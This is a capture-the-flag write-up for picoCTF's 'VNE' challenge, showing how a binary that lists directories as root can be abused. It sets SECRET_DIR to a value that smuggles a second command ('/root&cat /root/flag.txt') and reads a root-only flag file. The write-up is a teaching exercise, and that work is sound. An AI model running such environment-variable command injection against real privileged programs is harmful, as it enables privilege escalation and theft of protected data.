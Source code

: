 # VNE #
 
## Overview ##
 
200 points
 
Category: [Binary Exploitation](../)
 
Tags : `#environment #injection`
 
## Description ##
 
We've got a binary that can list directories as root, try it out !!
`ssh` to `saturn.picoctf.net:<port>`, and run the binary named `bin` once connected. Login as ctf-player with the supplied password.
 
## Approach ##
 
Running `bin` on the remote challenge instance yields :

    ctf-player@pico-chall$ ./bin
    Error: SECRET_DIR environment variable is not set

Setting the `SECRET_DIR` environment variable on command execution we get :

    ctf-player@pico-chall$ SECRET_DIR=. ./bin
    Listing the content of . as root: 
    bin

Ok, so lets get the directory listing of `/root` :

    ctf-player@pico-chall$ SECRET_DIR=/root ./bin
    Listing the content of /root as root: 
    flag.txt

We've found our flag, but permissions don't allow us to read the flag files contents :

    ctf-player@pico-chall$ cat /root/flag.txt
    cat: /root/flag.txt: Permission denied   
 
## Solution ##
 
Let's try injecting a command into the `SECRET_DIR` environment variable (actual flag value has been redacted for the purposes for this write up) :

    ctf-player@pico-chall$ SECRET_DIR="/root&cat /root/flag.txt" ./bin
    Listing the content of /root&cat /root/flag.txt as root: 
    picoCTF{...........redacted.............}flag.txt